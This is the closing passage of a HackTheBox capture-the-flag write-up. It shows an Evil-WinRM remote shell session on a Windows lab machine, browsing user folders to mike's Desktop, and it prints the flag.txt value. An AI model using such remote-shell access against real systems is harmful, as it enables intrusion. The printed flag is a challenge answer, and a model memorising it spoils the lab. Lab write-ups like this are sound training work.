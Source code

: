 ```console
*Evil-WinRM* PS C:\Users> ls

    Directory: C:\Users

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          3/9/2022   5:35 PM                Administrator
d-----          3/9/2022   5:33 PM                mike
d-r---        10/10/2020  12:37 PM                Public

*Evil-WinRM* PS C:\Users> cd mike
*Evil-WinRM* PS C:\Users\mike> ls

    Directory: C:\Users\mike

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         3/10/2022   4:51 AM                Desktop

*Evil-WinRM* PS C:\Users\mike> cd Desktop
*Evil-WinRM* PS C:\Users\mike\Desktop> ls

    Directory: C:\Users\mike\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         3/10/2022   4:50 AM             32 flag.txt

*Evil-WinRM* PS C:\Users\mike\Desktop> cat flag.txt
ea81b7afddd03efaa0945333ed147fac
```

And we got the flag!

**Flag:** `ea81b7afddd03efaa0945333ed147fac`

---
**Tags:** [[HackTheBox]] [[tee]]